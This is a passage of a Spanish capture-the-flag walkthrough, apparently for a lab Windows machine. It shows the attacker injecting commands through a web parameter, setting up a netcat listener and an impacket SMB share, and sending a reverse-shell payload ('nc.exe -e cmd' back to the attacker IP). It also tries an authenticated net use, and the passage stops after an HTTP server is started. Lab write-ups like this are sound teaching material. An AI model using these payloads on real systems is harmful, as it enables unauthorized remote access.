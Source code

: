     ```bash
    http://10.10.10.57:62696/test.asp?u=http://localhost/cmd.aspx?xcmd=ping 10.10.14.8
    ```

Como es una maquina windows, tenemos que recivir 4 pings y es el caso. Tenemos conectividad con la maquina victima.

## Explotacion de vulnerabilidad & Ganando Acceso {-}

### Entablar una reverse shell {-}

1. Nos ponemos en escucha por el puerto 443

    ```bash
    rlwrap nc -nlvp 443
    ```

1. Preparamos un nc.exe para la maquina victima

    ```bash
    locate nc.exe
    cp /usr/share/sqlninja/apps/nc.exe ./content
    ```

1. Nos creamos un registro compartido a nivel de red

    ```bash
    cd content
    impacket-smbserver smbFolder $(pwd) -smb2support
    ```

1. En la web

    ```bash
    http://10.10.10.57:62696/test.asp?u=http://localhost/cmd.aspx?xcmd=\\10.10.14.8\smbFolder\nc.exe -e cmd 10.10.14.8 443
    ```

En este caso no responde y vemos un exit status 1. Intentamos de varias maneras

1. Nos creamos un registro compartido a nivel de red

    ```bash
    impacket-smbserver smbFolder $(pwd) -smb2support -username s4vitar -password s4vitar123
    ```

```bash
http://10.10.10.57:62696/test.asp?u=http://localhost/cmd.aspx?xcmd=net use x: \\10.10.14.8\smbFolder /user:s4vitar s4vitar123
```

No responde y vemos un exit status 2.

Intentamos con un servidor web.

1. Nos creamos un servidor web

    ```bash
    python3 -m http.server 80
    ```
